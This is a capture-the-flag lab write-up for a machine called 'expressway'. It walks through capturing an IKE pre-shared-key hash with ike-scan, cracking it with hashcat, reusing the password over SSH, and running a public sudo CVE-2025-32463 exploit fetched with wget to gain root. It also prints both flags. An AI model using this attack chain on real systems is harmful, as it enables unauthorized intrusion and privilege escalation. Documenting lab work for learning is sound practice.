## Testing

Start: 2026-10-29 18:50

IP:
```IP
10.129.238.52
```
---
ports

```
sudo nmap -p- -Pn -n -vv --min-rate=5000 10.129.238.52 -oA network/nmap_ports
```



SSH

service

```
sudo nmap -p22 -sCV -Pn -n -vv --min-rate=5000 10.129.238.52 -oA network/nmap_service
```



SSH: OpenSSH 10.0p2 Debian 8

UDP ports

```
sudo nmap -p- -Pn -n -vv --min-rate=5000 -sU 10.129.238.52 -oA network/nmap_udp_ports
```



500 isakmp - "...establishing, negotiating, modifying, and deleting security associations (SAs) for IPsec" (https://whatportis.com/ports/500-isakmp)

UDP service

```
sudo nmap -p500 -sCV -Pn -n -vv --min-rate=5000 -sU 10.129.238.52 -oA network/nmap_udp_service
```



nmap marks with ? as cant confirm service

Reading https://hacktricks.wiki/en/network-services-pentesting/ipsec-ike-vpn-pentesting.html understand this protocol is used in Virtual Private Networks, VPNs. Resource uses `ike-scan` to discover users, passwords and capturing the authentication (PSK) to crack it offline.

Follow `ike-scan` installation https://github.com/royhills/ike-scan#building-and-installing

```
ike-scan -A 10.129.238.52
```



- Aggressive Mode enabled
- Auth: PSK
- User: `ike`
- Domain: `expressway.htb`

Add to `/etc/hosts`



```
ike-scan -A --pskcrack=handshake.txt 10.129.238.52
```

```
cat handshake.txt
```



"A recovered group PSK is not inherently a user password. In an authorized assessment, record it as a reusable shared secret and test other services only when the rules of engagement explicitly include credential reuse."

"Hashcat mode `5400` is for IKE-PSK SHA-1"

Trying to crack with mode `5400` using hashcat

```
hashcat -m 5400 handshake.txt rockyou.txt
```



Cracked
Password: `freakingrockstarontheroad`

Reusing password for system user `ike` to connect via SSH

```
ssh ike@expressway.htb
```
Input password: `freakingrockstarontheroad`

Valid

```
whoami && ip a | grep inet
```



Connected as `ike` to the target system `expressway` with IP: 10.129.238.52

```
cat user.txt
```

user.txt: `c683bbdd5bee5119ca84162e355648d2`

Enumerating sudo privileges: `Sorry, user ike may not run sudo on expressway.`

SUID bins

```
find / -perm -4000 2>/dev/null
```



`/usr/sbin/exim4` looks odd

```
/usr/sbin/exim4 --version
```



Exim version 4.98.2

Find CVEs but have been patched in this version

Using linpeas

Transfer via SSH

```
scp linpeas.sh ike@expressway.htb:/home/ike/
```



Give execution permission

```
./linpeas.sh
```

Nothing stands out but kernel exploits CVEs

---
HInt: https://www.youtube.com/watch?v=XAsuxQCBVmY min 11:25 - sudo version is vulnerable

---
From linpeas output



Sudo version 1.9.17

Searching "Sudo version 1.9.17":
https://www.exploit-db.com/exploits/52354

"Executing a sudo or sudoedit command with the host
option referencing an unrelated remote host rule causes Sudo to treat the
rule as valid for the local system. As a result, any command allowed by the
remote host rule can be executed on the local machine."

Not working

Seeing CVE-2025-32463
https://github.com/kh4sh3i/CVE-2025-32463

Downloading the script: 

```
wget https://raw.githubusercontent.com/kh4sh3i/CVE-2025-32463/refs/heads/main/exploit.sh
```

Transfrer via SSH

```
scp exploit.sh ike@expressway.htb:/home/ike/
```



Give execution permission

Run it

```
./exploit.sh
```



Connected as `root` to target machine `expressway` with IP: 10.129.238.52

```
cat /root/root.txt
```

root.txt: `6e25b2f9eebd2ede9bd5b1ac507be114`

End: 2026-10-29 20:00

---
#### Post-testing
##### Timeframe
Start: 2026-10-29 18:50
End: 2026-10-29 20:00

Total: 1h 10min
##### Techniques
- 500/udp IKE (ISAKMP) service authentication hash capture (PSK)
- Vulnerable sudo version 1.9.17 LPE (CVE-2025-32463)
##### Sources
- 500/udp IKE (ISAKAMP) service testing: https://hacktricks.wiki/en/network-services-pentesting/ipsec-ike-vpn-pentesting.html 
- `ike-scan`: https://github.com/royhills/ike-scan#building-and-installing
- Hint (IppSec video): https://www.youtube.com/watch?v=XAsuxQCBVmY min 11:25 - sudo version is vulnerable
- CVE-2025-32463 sudo 1.9.17 LPE: https://github.com/kh4sh3i/CVE-2025-32463
